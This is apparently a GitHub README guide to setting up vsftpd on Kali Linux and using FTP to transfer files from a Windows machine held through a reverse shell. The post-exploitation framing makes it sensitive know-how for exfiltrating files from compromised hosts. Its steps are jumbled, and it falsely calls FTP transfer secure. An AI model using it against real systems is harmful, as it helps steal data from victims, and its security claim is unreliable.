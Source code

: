 # here's a step-by-step guide on how to use the FTP command to transfer files from a Windows machine to a Kali Linux machine after taking a reverse shell:

1.) Set up an FTP server on the Kali Linux machine:
    You can use the vsftpd package to set up an FTP server on Kali Linux. Here's how to install and configure it:

2.) Install vsftpd using the following command:

# sudo apt-get install vsftpd
Once installed, open the configuration file using the following command:

# sudo nano /etc/vsftpd.conf
Find the following lines in the configuration file and uncomment them by removing the "#" symbol:

anonymous_enable=NO
local_enable=YES
write_enable=YES
Save and close the configuration file and restart the vsftpd service:

# sudo service vsftpd restart
Determine the IP address of the Kali Linux machine:
To connect to the FTP server on the Kali Linux machine from the Windows machine, you need to know the IP address of the Kali Linux machine. You can use the following command to determine the IP address:

# ifconfig
This will show you the IP address of the Kali Linux machine.

Connect to the FTP server from the Windows machine:
On the Windows machine, open a Command Prompt or PowerShell window and use the following command to connect to the FTP server:

If you have a reverse shell session of a Windows machine in Kali Linux, you can open a Command Prompt or PowerShell by running the following commands:

To open Command Prompt:

# cmd.exe
To open PowerShell:

# powershell.exe
Once you run these commands, a new Command Prompt or PowerShell window will open within the reverse shell session, and you can run any command or script within that window.

# ftp <kali-linux-ip-address>
Replace <kali-linux-ip-address> with the IP address of the Kali Linux machine that you determined in step 2.

 Log in to the FTP server:
When prompted, enter the username and password for the FTP server on the Kali Linux machine. If you configured vsftpd to allow local user accounts, you can use your Kali Linux username and password to log in.

Transfer files between the Windows machine and the Kali Linux machine:
Once you're logged in to the FTP server, you can use the following commands to transfer files between the Windows machine and the Kali Linux machine:

# To upload a file from the Windows machine to the Kali Linux machine:

put <local-file-path> <remote-file-path>
Replace <local-file-path> with the path to the file on the Windows machine and <remote-file-path> with the path where you want to save the file on the Kali Linux machine.

# To download a file from the Kali Linux machine to the Windows machine:

get <remote-file-path> <local-file-path>
Replace <remote-file-path> with the path to the file on the Kali Linux machine and <local-file-path> with the path where you want to save the file on the Windows machine.

To list files on the remote machine:

# ls
To change directory on the remote machine:

# cd <remote-directory-path>
To change directory on the local machine:

# lcd <local-directory-path>
That's it! With these steps, you should be able to securely transfer files between a Windows machine and a Kali Linux machine using the FTP command.










____________________________________________________________________________________________________________________________________________
▶ Name: StromWise

▶ Role: Creator

▶ Location: Unknown

▶ GitHub: https://github.com/stromwise 

▶ Instagram: https://www.instagram.com/stromwise/ 

▶ Facebook: https://www.facebook.com/profile.php?id=100093706328777

▶ Youtube: https://www.youtube.com/channel/UC-tafc0TqgZNnQio8Gj-hjg 

▶ Twitter: https://twitter.com/StromWise 
____________________________________________________________________________________________________________________________________________


